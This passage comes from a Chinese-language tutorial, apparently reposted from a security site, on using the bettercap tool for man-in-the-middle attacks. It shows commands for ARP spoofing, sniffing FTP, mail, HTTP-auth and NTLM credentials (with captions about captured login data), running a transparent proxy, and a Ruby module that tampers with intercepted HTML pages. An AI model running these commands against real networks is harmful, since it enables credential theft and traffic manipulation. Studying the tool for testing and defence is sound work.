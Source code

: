 用法举例：

默认傻瓜模式，开启所有功能:

```
sudo bettercap -X

```

如图为抓到的163邮箱登陆数据

![这里写图片描述](http://drops.javaweb.org/uploads/images/ddca0240f0ef8a5b201befb5d85ed50f355587a7.jpg)

指定抓取的数据包:

```
sudo bettercap -X -P "FTP,HTTPAUTH,MAIL,NTLMSS"

```

如图为抓到192.168.40.146的FTP

![这里写图片描述](http://drops.javaweb.org/uploads/images/7ba99e8d6eb43d478a00445afb953777c266784b.jpg)

### 3、MODULAR TRANSPARENT PROXY

代理功能，可以拦截篡改HTTP流量

用法举例：

开启代理功能：

```
sudo bettercap --proxy

```

开启代理功能并指定端口：

```
sudo bettercap --proxy --proxy-port=8081

```

关闭arp欺骗，只开启代理

```
sudo bettercap -S NONE --proxy

```

开启代理功能并加载指定的Ruby模块

```
sudo bettercap --proxy --proxy-module=hack_title.rb

```

Ruby参考示例：

```
class HackTitle < Proxy::Module
  def on_request( request, response )
    # is it a html page?
    if response.content_type == 'text/html'
      Logger.info "Hacking http://#{request.host}#{request.url} title tag"
      # make sure to use sub! or gsub! to update the instance
      response.body.sub!( '<title>', '<title> !!! HACKED !!! ' )
    end
  end
end

```

